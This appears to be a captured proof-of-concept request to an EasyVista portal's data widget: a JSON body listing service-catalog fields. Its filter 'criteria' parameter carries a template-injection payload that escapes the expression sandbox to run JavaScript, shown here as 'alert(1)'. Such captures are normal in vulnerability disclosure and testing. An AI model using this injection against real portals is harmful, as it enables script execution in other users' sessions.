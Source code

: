 ```
{"name":"com.xxxx.5f084ca2b1ac6","widgetClassName":"com.easyvista.core.plugdb.PlugDBEasyvista","properties":[{"name":"connector","type":"connector","accessType":2,"value":"alias_b57d8783c3ef11e4bba1f01faf66969f"},{"name":"jsonContent","type":"memo","accessType":4,"value":null},{"name":"filtersAndViews","type":"object","accessType":4,"value":null},{"name":"sortOrdersValues","type":"object","accessType":4,"value":""},{"name":"query","type":"combo","accessType":2,"value":"{913655A9-A4FE-4A71-8642-9A64D7B46A2D}"},{"name":"filter","type":"combo","accessType":2,"value":"{E3A875C1-C5D3-4C7F-8CF8-E25D1B4E6148}"},{"name":"view","type":"combo","accessType":2,"value":"{F923D560-8C1A-4BB4-A177-424B641F57E0}"},{"name":"filterField","type":"combo","accessType":2,"value":""},{"name":"filterValue","type":"string","accessType":2,"value":""},{"name":"sortOrderAggregated","type":"combo","accessType":2,"value":""},{"name":"sortOrderAggregatedType","type":"combo","accessType":2,"value":""},{"name":"sortOrder","type":"combo","accessType":2,"value":""},{"name":"sortOrderType","type":"combo","accessType":2,"value":""},{"name":"masterDatasource","type":"widget","accessType":2,"value":""},{"name":"masterField","type":"combo","accessType":2,"value":""},{"name":"detailField","type":"combo","accessType":2,"value":""},{"name":"expandLevel","type":"int","accessType":4,"value":""},{"name":"noDataByDefault","type":"boolean","accessType":2,"value":false},{"name":"fieldTypes","type":"fields_datasource","accessType":2,"value":[{"fieldname":"SD_CATALOG.CODE","columnIndex":0,"customLabel":"Service : Code","hidden":false,"dataType":"string","config":null,"formatError":false},{"fieldname":"SD_CATALOG.TITLE_$lng","columnIndex":1,"customLabel":"LibellÃ© du Service (dernier niveau)","hidden":false,"dataType":"string","config":null,"formatError":false},{"fieldname":"{* SMO_TREE_GET_PATH( 'SD_CATALOG', SD_CATALOG.SD_CATALOG_ID, '/', 0, 0, 0,0) @ALIAS@*}","columnIndex":2,"customLabel":"LibellÃ© du Service (complet)","hidden":false,"dataType":"none","config":null,"formatError":false},{"fieldname":"SD_CATALOG.DESCRIPTION_$lng","columnIndex":3,"customLabel":"Note","hidden":false,"dataType":"none","config":null,"formatError":false},{"fieldname":"SD_CATALOG.MAX_QTY","columnIndex":4,"customLabel":"QuantitÃ© maximale","hidden":false,"dataType":"integer","config":{"thousandsSeparator":"noSeparator"},"formatError":false},{"fieldname":"SD_SLA.NAME_$lng","columnIndex":5,"customLabel":"SLA","hidden":false,"dataType":"string","config":null,"formatError":false},{"fieldname":"SD_CATALOG.NET_PRICE","columnIndex":6,"customLabel":"Montant refacturÃ©","hidden":false,"dataType":"float","config":{"thousandsSeparator":"noSeparator","decimalsSeparator":"."},"formatError":false},{"fieldname":"AM_NET_PRICE_CURRENCY.CURRENCY","columnIndex":7,"customLabel":"Montant refacturÃ© : Devise","hidden":false,"dataType":"string","config":null,"formatError":false},{"fieldname":"SD_CATALOG.END_DATE","columnIndex":8,"customLabel":"Fin de disponibilitÃ©","hidden":false,"dataType":"datetime","config":{"dateFormat":"d/m/Y","timeFormat":"H:i:s","epochFormat":null},"formatError":false},{"fieldname":"SD_CATALOG.BIG_PICTURE_PATH","columnIndex":9,"customLabel":"Image","hidden":false,"dataType":"string","config":null,"formatError":false}]},{"name":"selectFirstRow","type":"boolean","accessType":2,"value":true},{"name":"noDataLabel","type":"htmleditor","accessType":2,"value":""},{"name":"autoRefresh","type":"duration","accessType":2,"value":""},{"name":"additionalFields","type":"array","accessType":4,"value":["SD_SLA.NAME_$lng"]},{"name":"session","type":"object","accessType":1,"value":{"memo":null,"logoutUrl":""}},{"name":"name","type":"string","accessType":4,"value":"Get"},{"name":"editable","type":"boolean","accessType":4,"value":true},{"name":"privateProperty","type":"object","accessType":4,"value":null},{"name":"templateCreator","type":"string","accessType":4,"value":null},{"name":"guid","type":"guid","accessType":1,"value":"1614674865e41c00ae6f85"},{"name":"widgetname","type":"string","accessType":1,"value":"PlugDBEasyvista"},{"name":"breakpoints","type":"array","accessType":1,"value":[]},{"name":"hideWidgets","type":"array","accessType":4,"value":[]}],"fct":"fetchContent","params":{"filter":"{E3A875C1-C5D3-4C7F-8CF8-E25D1B4E6148}","incrementalFilter":"","isAggregatedData":false,"additionalFields":["SD_SLA.NAME_$lng"],"detailField":null,"detailFieldFilter":"","masterTable":"","EzvClientPageParam":{"navigatorGuid":"","pageDirection":"first"},"EzvClientIncrementalFilterParam":{"criteria":"{{0[a='constructor'][a]('alert(1)')()}}","fields":["SD_CATALOG.TITLE_FR","SD_CATALOG.CODE","SD_CATALOG.DESCRIPTION_FR"]},"EzvClientOrderParam":{"sortOrderAggregated":"","sortOrderAggregatedType":"","sortOrder":"","sortOrderType":""}},"stackId":"Get","action":"call","referer":"https://xxxx.com/s/portail"}
```
